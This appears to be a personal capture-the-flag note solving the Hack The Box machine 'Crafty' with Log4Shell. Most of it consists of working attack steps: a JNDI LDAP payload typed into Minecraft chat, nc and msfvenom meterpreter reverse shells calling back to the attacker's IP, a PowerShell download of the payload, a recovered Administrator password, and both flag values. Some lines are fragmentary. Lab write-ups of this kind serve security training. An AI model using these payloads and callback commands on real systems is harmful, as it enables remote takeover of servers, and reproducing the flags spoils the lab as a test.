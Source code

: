 
Vulnerability: CVE-2021-44228 (Minecraft)




Crafty Overall path towards gaining user:
1. Download TLauncher from https://tlauncher.org/jar
2. Clone this https://github.com/kozmer/log4j-shell-poc , change poc.py line 26 from String cmd="/bin/sh"; to String cmd="cmd.exe";
3. Download JDK 8: wget -c --no-cookies --no-check-certificate --header "Cookie: oraclelicense=accept-securebackup-cookie" https://download.oracle.com/otn/java/jdk...x64.tar.gz
4. Execute log4j exploit like: python3 poc.py --userip [Your VPN IP] --webport 8000 --lport 9001 (Remember to open nc listener on port 9001)
5. When ex 
6. Using JDK 8 run the TLauncher, jar file and select the Fabric 1.16.5 from Version and install it. After installation run the Game. Press T for chat and enter: ${jndi:ldap://your vpn ip:1389/a}. You should receive rev shell as svc_minecraft (User Flag Owned) 
   
   https://breachforums.cx/Thread-HTB-Crafty
   
   
# IMG
![[Pasted image 20240309144937.png]]

   
   
Add Server
![[Pasted image 20240309145213.png]]
![[Pasted image 20240309234035.png]]![[Pasted image 20240309234106.png]]
![[Pasted image 20240310001816.png]]

![[Pasted image 20240310003232.png]]

![[Pasted image 20240310003354.png]]

![[Pasted image 20240310003432.png]]
![[Pasted image 20240310003533.png]]






IP 
10.10.11.249



└─$ sudo nmap -sT -sV crafty.htb           
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-08 15:40 EST
Nmap scan report for crafty.htb (10.10.11.249)
Host is up (0.034s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.78 seconds
                                                               

ALL PORT

┌──(kali㉿kali)-[~/Machine]
└─$ sudo nmap -sT -sV -p- crafty.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-08 15:52 EST
Nmap scan report for crafty.htb (10.10.11.249)
Host is up (0.036s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


Start the TLauncher
┌──(kali㉿kali)-[~/Machine/Crafty/log4j-shell-poc]
└─$ ./jdk1.8.0_20/bin/java -jar /home/kali/Downloads/TLauncher-2.895.jar  

Setup Listener
python3 poc.py --userip 10.10.16.98 --webport 80 --lport 4444
nc -nlvp 4444

version Fabric 1.16.5

Connect the server to the listener type this in game server chat (Press T)

${jndi:ldap://10.10.16.98:1389/a}


Found User flag
c:\Users\svc_minecraft>cd Desktop
cd Desktop

c:\Users\svc_minecraft\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of c:\Users\svc_minecraft\Desktop

02/05/2024  06:02 AM    <DIR>          .
02/05/2024  06:02 AM    <DIR>          ..
03/08/2024  04:16 PM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,523,616,768 bytes free

c:\Users\svc_minecraft\Desktop>more usert.txt
more usert.txt
Cannot access file C:\Users\svc_minecraft\Desktop\usert.txt

c:\Users\svc_minecraft\Desktop>more user.txt 
more user.txt
2aba9772865ac1ab21ec3764bba43658

c:\Users\svc_minecraft\Desktop>








System information 

c:\Users\svc_minecraft>systeminfo                                                                                     
systeminfo                                                                                                            
                                                                                                                      
Host Name:                 CRAFTY                                                                                     
OS Name:                   Microsoft Windows Server 2019 Standard                                                     
OS Version:                10.0.17763 N/A Build 17763                                                                 
OS Manufacturer:           Microsoft Corporation                                                                      
OS Configuration:          Standalone Server                                                                          
OS Build Type:             Multiprocessor Free                                                                        
Registered Owner:          Windows User                                                                               
Registered Organization:                                                                                              
Product ID:                00429-00521-62775-AA944                                                                    
Original Install Date:     4/10/2020, 9:48:06 AM                                                                      
System Boot Time:          3/8/2024, 4:15:57 PM                                                                       
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,071 MB
Virtual Memory: Max Size:  4,902 MB
Virtual Memory: Available: 2,768 MB
Virtual Memory: In Use:    2,134 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\CRAFTY                                        
Hotfix(s):                 N/A                                             
Network Card(s):           1 NIC(s) Installed.                             
                           [01]: vmxnet3 Ethernet Adapter                  
                                 Connection Name: Ethernet0                                                                                            
                                 DHCP Enabled:    No                       
                                 IP address(es)                            
                                 [01]: 10.10.11.249                        
                                 [02]: fe80::16e9:912b:c6e2:e027                                                                                       
                                 [03]: dead:beef::ab03:8159:2fb9:c141                                                                                  
                                 [04]: dead:beef::1be              





msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=10.10.16.98 LPORT=8989 -o /home/kali/Machine/Crafty/reverse.exe

powershell

Invoke-WebRequest -Uri "http://10.10.16.98:8000/r
everse.exe" -OutFile "C:\users\svc_minecraft\Desktop\rev.exe"  


msfconsole
  use multi/handler
  set payload windows/x64/meterpreter/reverse_tcp
  set lhost tun0
  set lport 8989
    run


    download playercounter-1.0_SNAPSHOT.jar



    install http://java-decompiler.github.io to decopile the .jar file 


Reverse shell admin  access

$SecPass = ConvertTo-SecureString "s67u84zKq8IXw" -AsPlainText 
-Force

$cred = New-Object System.Management.Automation.PSCredential('A
dministrator', $SecPass)


PWD 
s67u84zKq8IXw

second reverse shell 
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=8990 -f exe >> rev2.exe

secondo msfconsole 


Runas 
https://github.com/antonioCoco/RunasCs/releases



Root Flag 
63e2d80fb9ba9c1d204d842acf8914e1


